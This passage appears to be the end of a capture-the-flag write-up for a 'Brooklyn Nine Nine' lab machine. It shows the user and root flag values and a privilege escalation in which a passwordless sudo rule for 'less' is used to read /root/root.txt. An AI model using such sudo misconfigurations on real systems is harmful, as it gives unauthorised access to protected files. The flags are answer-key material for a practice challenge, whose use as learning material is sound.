 I found a file called **"user.txt"** in the **"/home/holt"** directory. I looked inside, and got this:

```
ee11cbb19052e40b07aac0ca060c23ee
```

...and that is the User Flag!

### Looking for Privelege Escalation:
	
To begin with searching for PE vectors, it is always a good idea to use the command: **sudo -l**

This will bring up any files that the user can run with sudo priveleges. Here are the results:
	
```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

It appears that we can use the **"less"** program with sudo rights. **less** is a program that outputs the contents of a file, one page at a time, to make it easier to read through long files in the terminal. 

Since I can run it with sudo rights, I should be able to read any file I want as long as I use the **less** command to do it.

Most of the time on these CTFs, they store the Root Flag in the **"/root/"** directory. Since the User Flag was named **"user.txt"**, perhaps the Root Flag will be named **"root.txt"**?

So I tried the following command:
	
```
sudo less /root/root.txt
```

and I got the following:
	
```
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
/root/root.txt (END)
```

There you have it! We are done!

# End of CTF.


